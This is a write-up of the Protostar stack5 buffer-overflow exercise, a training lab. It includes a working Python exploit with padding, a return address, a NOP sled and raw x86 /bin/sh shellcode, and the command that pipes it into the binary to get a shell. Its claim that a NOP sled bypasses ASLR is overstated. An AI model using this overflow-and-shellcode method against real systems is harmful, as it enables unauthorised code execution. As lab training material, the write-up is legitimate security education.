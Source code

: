 ```yaml
---
layout: post
title: "stack5 Protostar writeup"
categories: protostar
---
```


I started solving Protostar from Exploit Exercises and this will be a writeup for [stack level 5](https://exploit-exercises.com/protostar/stack5).

When we check the disassembly of `main` with radare,
![disassembly](/data/stack5/stack5.png)

(Press `p` in visual graph mode to show the address offset)

Function `gets` is called for for variable `local_10h` at `esp+0x10`. Also, instruction at `0x080483ca` shows that stack space for current fucntion's local variables will be `0x50`. Stack will look like this.

![stack layout](/data/stack5/stack_layout.png)

Now if we write 0x48 bytes, last 4 bytes will be the new return address and code flow will be updated.


Using shellcode
---------------

Let us write the shellcode on the stack and update the `return` address to the starting of this shellcode. If you want to know more about shellcodes check this [tutorial](http://www.vividmachines.com/shellcode/shellcode.html).

We will use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode.
Note: It is an x86 binary.

#### Exploit
- Write 76 bytes of padding for filling stack space. (0x44 i.e 68 and 8 extra bytes due to memory alignment at `0x080483c7`)  
- 4 byte address to starting of shellcode.
- Shellcode

But problem may arise if ASLR (which is not the case here) is active thus we add `nop` sled after the return address. This will help us bypass ASLR.

File: [exploit.py](/data/stack5/exploit_shellcode.py)
```
#! /usr/bin/python2.7
import sys
import struct

stack = struct.pack("I", 0xbffff78c + 100)

nop = '\x90' * 200
sc = "\x31\xc0\x50\x68\x2f\x2f\x73"\
     "\x68\x68\x2f\x62\x69\x6e\x89"\
     "\xe3\x89\xc1\x89\xc2\xb0\x0b"\
     "\xcd\x80\x31\xc0\x40\xcd\x80"

pad = 'A' * 76

print pad+stack+nop+sc
```

Run:

`(python exploit.py 100; cat -) | /opt/protostar/bin/stack5`

This will give us a shell.

##### Explaination
- We will place 76 As and return address, nop sled and shellcode on stack.
- New return address will point to shellcode (or nop sled before shellcode)
- Upon end of main, code flow will redirect to shellcode thus popping a shell.
- `cat -` is to make sure the piped input is not reaching EOF thus preventing the shell from exiting.


Using ret2libc
--------------
Will update this soon. Check the exploit [here](/data/stack5/exploit_ret2libc.py)